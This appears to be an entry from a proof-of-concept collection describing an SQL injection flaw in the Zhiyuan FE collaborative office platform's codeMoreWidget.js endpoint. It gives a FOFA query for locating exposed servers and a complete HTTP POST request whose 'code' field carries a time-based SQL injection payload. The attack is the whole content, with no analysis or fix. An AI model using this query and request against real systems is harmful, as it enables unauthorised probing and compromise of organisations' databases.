 ## 致远互联FE协作办公平台codeMoreWidget.js存在sql注入漏洞

## fofa

```
title="FE协作办公平台" || body="li_plugins_download"
```

## poc

```
POST /common/codeMoreWidget.js%70 HTTP/1.1
Host:
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

code=-1';waitfor delay '0:0:5'--
```

